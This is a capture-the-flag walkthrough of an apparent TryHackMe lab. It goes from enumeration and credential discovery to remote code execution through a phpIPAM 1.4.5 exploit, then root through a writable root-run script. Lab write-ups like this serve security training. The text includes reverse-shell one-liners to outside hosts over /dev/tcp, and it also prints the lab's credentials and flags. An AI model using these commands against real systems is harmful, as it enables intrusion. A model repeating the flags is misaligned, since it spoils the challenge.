 ```yaml
---
sticker: emoji//1f415
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |
| 1337 | waste   |



# RECONNAISSANCE
---

If we check the website, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160350.png)

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160417.png)

That just takes us to a Youtube video:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160441.png)


If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```


If we follow the string of the conversation, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160543.png)

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160710.png)

If we answer correctly, we get the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160724.png)

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160828.png)


# EXPLOITATION
---

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403160856.png)

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```


If we use the exploit correctly, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403161633.png)

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403162334.png)

Let's proceed privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403162450.png)

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403164153.png)

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403164331.png)

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403164633.png)

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250403164709.png)




